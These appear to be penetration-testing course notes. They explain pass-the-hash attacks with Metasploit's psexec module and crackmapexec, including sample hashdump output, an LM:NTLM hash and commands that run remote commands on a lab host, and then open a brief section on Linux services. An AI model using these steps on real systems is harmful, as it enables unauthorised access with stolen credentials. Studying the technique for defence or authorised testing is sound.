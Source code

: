 ### Pass-The-Hash Attacks 

What can we do with **NTLM** hashes apart from cracking them?
+ can perform a <mark style="background: #BBFABBA6;">pass the hash</mark>

#### Pass-the-Hash ####
+ <mark style="background: #BBFABBA6;">Pass-the-hash</mark> is an exploitation technique that involves <mark style="background: #FFF3A3A6;">capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately </mark>
+ Can use multiple tools to facilitate a Pass-The-Hash attack:
  + <mark style="background: #FF5582A6;">Metasploit</mark> PsExec module 
  + <mark style="background: #D2B3FFA6;">Crackmapexec</mark> 
+ This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation 
  + This will allow persistence even if there is a patch 

For the <mark style="background: #FF5582A6;">Metasploit</mark> PsExec module , will also need the **lm** hash
+ can do so with `hashdump`
	+ Example output: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::`
	+ This can be parsed as: `USERNAME:SID:LM_HASH:NTLM_HASH:::`
+ Will now `use exploit/windows/smb/psexec`
  + `set LPORT 4422`
  + `set RHOSTS 10.3.31.228`
  + `set SMBUSER Administrator`
  + `set SMBPASS PASSWORD_HASH` Notice that a hash is possible, but can also use clear text password
	+ Will need to pass both the LM and NTLM Hash
		+ Example: `aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d`
+ Can now `run` and get a <mark style="background: #FF5582A6;">meterpreter</mark> session 

Can also <mark style="background: #ADCCFFA6;">use pass the hash</mark> with <mark style="background: #D2B3FFA6;">Crackmapexec</mark> 
+ `crackmapexec smb 10.3.31.228 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d"`
	+ not that the `-H` is the NTLM hash 
	+ This will let you know if it is Pwn3d, can now use the `-x` flag to run commands 
		+ Example: `crackmapexec smb 10.3.31.228 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "ipconfig"`

# Linux 

## Linux Vulnerabilities 

### Frequently Exploited Linux Services 

+ <mark style="background: #BBFABBA6;">Linux</mark> is a free and open source OS what is comprised of the Linux kernel, which was developed by Linus Torvalds, and the GNU toolkit, which is a collection of software and utilities that was started and developed by Richard Stallman 
+ This combination of open source software is what makes up the Linux OS as a whole, commonly referred to as GNU/Linux
+ Linux has various use cases, however, it is <mark style="background: #FFF3A3A6;">typically deployed as a server OS</mark>. That means there are specific services and protocols that will typically be found running on a Linux server
+ These services provide an attacker with an access vector that they can utilized to gain access to the target host
+ Having a good understanding of what these services are, how they work, and their potential vulnerabilities is a vitally important skill to have as a penetration tester 

